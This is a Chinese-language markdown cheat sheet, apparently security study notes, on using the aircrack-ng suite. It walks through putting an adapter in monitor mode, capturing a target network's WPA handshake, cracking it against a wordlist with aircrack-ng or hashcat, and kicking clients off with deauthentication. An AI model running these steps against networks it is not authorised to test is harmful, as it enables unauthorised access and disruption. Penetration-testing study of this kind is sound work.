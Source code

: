 # Aircrack

<p align="center">
    <img src="../../../assets/img/logo/aircrack-ng.jpg" width="25%">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

aircrack 是一个比较出名的用于破解 WEP 和 WPA 加密的无线网络的一款工具，由 6 个不同的部分组成：
1. aircrack-ng 用于破解 WEP 以及 WPA-PSK 密钥。一旦 aircrack-ng 工具收集了足够的信息，aircrack-ng 将会分析这些数据，并试图确定使用中的密钥。
2. airdecap-ng 解读被破解的网络数据包
3. airmon-ng 为使用整个 aircrack-ng 套件配置一个网卡
4. aireplay-ng 在无线网络中产生可能在恢复中的 WEP 密钥所需的流量
5. airodump-ng 捕获被 aircrack-ng 用于破解 WEP 密钥的 802.11 帧
6. tools 为微调提供分类工具箱

**文章**
- [记一次曲折的WIFI测试之路](https://www.secpulse.com/archives/96964.html)

---

**配置无线网卡**
- WM Ware(开机后)

    虚拟机->可移动设备->Ralink 802.11 n Wlan(显卡型号)->连接(断开与主机的连接)

- VBox

    虚拟机关机状态下->将设备插入主机->设置->USB 设备->添加->删除除了供应商标识(VendorID)和产品标识(ProductID)之外的参数->开机->插入设备

- 验证是否连接成功

    ```bash
    lsusb
    airmon-ng
    ifconfig
    iwconfig
    ```
    出现无线网卡型号即为成功

**无线基础命令**
```bash
iwlist      # 用于对 /proc/net/wireless 文件进行分析,得出无线网卡相关信息
    iwlist wlan0 scanning | grep "ESSID"    # 查看当前所有的 AP 名

iwconfig
    iwconfig wlan0 scanning                 # 扫描无线接入点
    iwconfig wlan0 nickname hacking         # 添加别名
```

---

# 例子

以无线网卡名为 wlan0 举例

```bash
airmon-ng start wlan0   # 启动网卡监听模式
airmon-ng check kill    # 关闭干扰程序

airodump-ng wlan0mon    # 开启抓包,获取附件无线网络
```

|列名                                        |含义
|-------------------------------------------|-------------------------
|BSSID(Basic Service SetIdentifier)         |AP 的 MAC 地址
|PWR(Power)                                 |信号强度
|Beacons                                    |AP发出的通告编号,每个接入点(AP)在最低速率(1M)时差不多每秒会发送10个左右的 beacon,所以它们能在很远的地方就被发现
|Data                                      |当前数据传输量
|/s                                        |过去10秒钟内每秒捕获数据分组的数量
|CH(Channel)                                |AP 所在的频道
|MB                                         |AP 的最大传输速度;MB=11 => 802.11b,MB=22 => 802.11b+, MB>22 => 802.11g;后面带.的表示短封包标头,处理速度快,更利于破解
|ENC(Encryption)                            |使用的加密算法体系
|CIPHER                                     |检测到的加密算法
|AUTH(Authority)                            |认证方式
|ESSID(The Extended Service Set Identifier) |AP 的名称

```bash
airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon     # 指定特定的wifi抓握手包,出现 handshake 则抓包成功
# -c 指定信道,上面已经标记目标热点的信道(CH)
# -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
# -w 指定抓取的数据包保存的目录

aircrack-ng -a2 -b E0:24:81:AF:F3:A8 -w pass.txt wireless-01.cap    # 跑包
```

**使用 hashcat 爆破(只能跑 WPA/WPA2/PSK 加密的)**

用 aircrack-ng 把 cap 转换成 hccap 类型数据包(会自动添加后缀名 .hccap)
```bash
aircrack-ng wireless-01.cap -J wireless
```

```bash
hashcat -m 2500 wireless.hccap pass.txt --force                     # 用hashcat破解WPA/PSK密码
```

若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为
```bash
aircrack-ng wireless-01.cap -j wireless
```

**Deauthentication**

注意如果抓不到握手包把对方踢下线,这样就会抓包成功
```bash
aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon
# -0 冲突攻击模式，后面跟发送次数，一般使用这个模式即可。
# -a 无线网 mac 地址
# -c 连接上的客户端 mac 地址，就是那个 STATION
```
